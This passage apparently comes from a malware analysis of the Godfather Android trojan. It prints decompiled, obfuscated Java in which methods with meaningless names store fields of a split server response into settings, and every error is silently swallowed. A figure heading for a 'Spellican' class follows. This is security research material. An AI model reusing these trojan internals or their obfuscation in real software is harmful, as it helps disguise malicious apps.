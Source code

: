 ```java
                                veepees.tautologys = split;
                                try {
                                    rawedged.runtiest(context, split[8]);
                                } catch (Exception e2) {
                                }
                                try {
                                    rawedged.reexpressing(context, veepees.tautologys[11]);
                                } catch (Exception e3) {
                                }
                                try {
                                    Tamarix.Sandrakottos(context, "dsd", veepees.tautologys[13]);
                                } catch (Exception e4) {
                                }
                                try {
                                    Context context2 = context;
                                    String[] strArr = veepees.tautologys;
                                    rawedged.hyperemetic(context2, strArr[14], strArr[15]);
                                } catch (Exception e5) {
                                }
                                try {
                                    Tamarix.Sandrakottos(context, "psd", veepees.tautologys[22]);
                                } catch (Exception e6) {
                                }
                                try {
                                    Besant.sublibrarianship(context, veepees.tautologys[21]);
                                } catch (Exception e7) {
                              
                                }
                                Tamarix.Sandrakottos(context, "is", veepees.tautologys[1]);
                            }
                            Tamarix.Sandrakottos(context, effluvias, res);
                        }
                    } catch (Exception e8) {
                 
                    }
                }
            }
        });
        return HttpUrl.FRAGMENT_ENCODE_SET;
    } catch (Exception e) {
        return HttpUrl.FRAGMENT_ENCODE_SET;
    }
}


```

#### Spellican


![Figure 16 - Spellican Class](/assets/images/2024-12-09-godfather-android-analysis/img16.png)
